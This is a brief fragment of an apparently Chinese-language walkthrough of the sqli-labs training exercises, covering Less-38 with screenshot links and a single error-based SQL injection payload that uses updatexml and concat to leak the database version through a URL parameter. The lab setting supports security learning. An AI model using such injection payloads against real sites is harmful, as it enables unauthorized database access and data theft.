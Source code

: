 + 同 Less-34 关一样 


## Less-38 

![](img/less-38.1.png)

```bash
?id=2' and updatexml(1,concat('^',(select version()),'^'),1)or '-- 
```
![](img/less-38.3.png)
